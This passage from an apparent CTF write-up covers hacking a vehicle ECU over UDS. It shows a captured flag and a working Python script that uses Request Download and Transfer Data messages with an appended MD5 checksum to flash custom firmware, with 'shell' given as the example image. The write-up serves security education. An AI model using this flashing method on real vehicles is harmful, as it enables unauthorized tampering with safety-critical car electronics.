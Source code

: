 Running this script, we successfully authenticate to security access level 5 and retrieve the flag.

**Flag:** `bh{i_really_hate_twister}`

## Custom Firmware

The final challenge in this CTF category requires us to flash our own firmware to the ECU. To
transfer data to the ECU, we first send a UDS message with SID 0x34 (Request Download). In this
request we specify the format of the data we are going to send (e.g. encryption vs. no encryption /
compression vs. no compression) and the size of the data. One caveat is that the `UDSHandler`
function expects the last 16 bytes of the data to contain the MD5 checksum of the rest of the data,
so we need to account for that when sending the new firmware image.

Upon initiating a software download to the ECU, we should receive a positive response containing the
maximum number of bytes that can be sent in each follow-up Transfer Data message (SID 0x36). The
size we get back is 4095, which is the maximum frame size supported by the ISO-TP protocol.
Therefore, we can send up to 4095 bytes of the firmware image at a time; however, I've found that
the checksum will sometimes fail if the max value is used (probably due to a bug in my code
somewhere). Finally, each Transfer Data message we send must contain an 8-bit sequence number, which
starts at 1 and rolls back over to 0 after sequence number 255.

```py
#!/usr/bin/python3

from common import *
import hashlib

if len(sys.argv) != 2:
    print('Usage: python flash.py <exe>')
    print('')
    print('  Flash the firmware image saved in <exe> to the ECU.')
    print('')
    print('E.g.   python flash.py shell')
    sys.exit(0)

data  = open(sys.argv[1], 'rb').read()
data += hashlib.md5(data).digest()
size  = len(data)

s = socket()

#
# Initiate a firmware download.
#
# 0x34 = SID (Request Download)
# 0x00 = Data Format ID (no encryption / no compression)
# 0x41 = Address & Length ID (1-byte address / 4-byte size)
# 0x00 = Junk address since it's not used anyways
#
reply = sendrecv(s, bytes([ 0x34, 0x00, 0x41, 0x00 ]) + p32(size))
assert_not_nrc(reply)

# Transfer the firmware block-by-block.
seqn = 1
block_size = READ_MEMORY_MAX_SIZE
while size > 0:
    reply = sendrecv(s, bytes([ 0x36, seqn ]) + data[:block_size])
    assert_not_nrc(reply)
    seqn = (seqn + 1) & 0xff
    data = data[block_size:]
    size = size - block_size

# Routine a5a5 flashes the new firmware and executes it.
```